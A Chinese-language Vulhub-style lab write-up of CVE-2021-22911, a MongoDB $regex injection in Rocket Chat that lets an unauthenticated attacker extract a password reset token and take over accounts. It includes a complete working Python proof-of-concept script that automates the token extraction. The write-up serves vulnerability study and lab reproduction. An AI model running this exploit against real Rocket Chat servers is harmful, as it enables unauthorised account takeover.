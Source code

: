 # Rocket Chat MongoDB 注入漏洞 CVE-2021-22911

## 漏洞描述

Rocket Chat是一款基于Node.js、MongoDB的开源团队聊天工具。在其3.12.1~3.13.2版本中，存在一处MongoDB注入漏洞，利用这个漏洞，攻击者可以获取用户敏感信息，甚至在服务器上执行任意命令。

这个漏洞有两种攻击方式：

- 未授权攻击者可以利用这个漏洞，获取任意普通用户的Password Reset Token，并通过这个Token修改其密码
- 普通用户可以利用这个漏洞，获取任意用户的任意信息

参考链接：

- https://blog.sonarsource.com/nosql-injections-in-rocket-chat
- https://www.exploit-db.com/exploits/50108
- https://github.com/CsEnox/CVE-2021-22911
- https://paper.seebug.org/1652/

## 环境搭建

Vulhub执行如下命令启动一个Rocket Chat 3.12.1：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:3000`即可查看到Rocket Chat的安装向导，跟随向导进行安装即可。

安装完成后，为了验证第一个攻击方法，我们需要在后台增加一个普通用户，用户名为`vulhub`，邮箱为`vulhub@vulhub.org`。

## 漏洞复现

我们只来复现第一种利用方式。复现这个漏洞需要三步：

1. 通过邮箱找回密码，后台会在数据库中会生成Password Reset Token
2. 利用MongoDB注入，获取这个Password Reset Token
3. 使用Password Reset Token来更改这个用户的密码

其中，我们使用`$regex`语句进行MongoDB注入，当`$regex: ^7`时，不匹配，返回一个错误信息：

![image-20230418153358039](images/image-20230418153358039.png)

当`$regex: ^8`时能够匹配，返回正确信息：

![image-20230418153405408](images/image-20230418153405408.png)

将注入的过程通过[CVE-2021-22911.py](https://github.com/vulhub/vulhub/blob/master/rocketchat/CVE-2021-22911/CVE-2021-22911.py)这个小脚本进行实现，自动化获取Password Reset Token：

![image-20230418153413172](images/image-20230418153413172.png)

使用Password Reset Token修改用户密码成功：

![image-20230418153421489](images/image-20230418153421489.png)

## 漏洞POC

- https://github.com/vulhub/vulhub/blob/master/rocketchat/CVE-2021-22911/CVE-2021-22911.py

```python
import sys
import time
import string
import json
import requests


guess = '-_' + string.digits + string.ascii_letters
session = requests.session()
session.headers = {
    'Content-Type': 'application/json',
}


def reset_password(target: str, email: str):
    payload = {
        'msg': 'method',
        'method': 'sendForgotPasswordEmail',
        'params': [email],
    }

    session.post(
        f'{target}/api/v1/method.callAnon/sendForgotPasswordEmail',
        json={'message': json.dumps(payload)},
    )
    sys.stdout.write("[+] Password Reset Email Sent\n")
    sys.stdout.flush()


def inject_token(target: str):
    payload = {
        'msg': 'method',
        'method': 'getPasswordPolicy',
        'params': [
            {
                'token': {'$regex': '^'}
            }
        ],
    }
    for i in range(43):
        current = payload['params'][0]['token']['$regex']
        sys.stdout.write(f'[*] Guess No.{i + 1} character: ')
        for ch in guess:
            payload['params'][0]['token']['$regex'] = current + ch
            response = session.post(
                f'{target}/api/v1/method.callAnon/getPasswordPolicy',
                json={'message': json.dumps(payload)},
            )
            if b'Meteor.Error' not in response.content:
                sys.stdout.write(f"\n[+] Current token is {payload['params'][0]['token']['$regex'][1:]}\n")
                sys.stdout.flush()
                break
            else:
                sys.stdout.write('.')
                sys.stdout.flush()

            time.sleep(1.5)


if __name__ == '__main__':
    target = sys.argv[1]
    reset_password(target, sys.argv[2])
    inject_token(target)
```


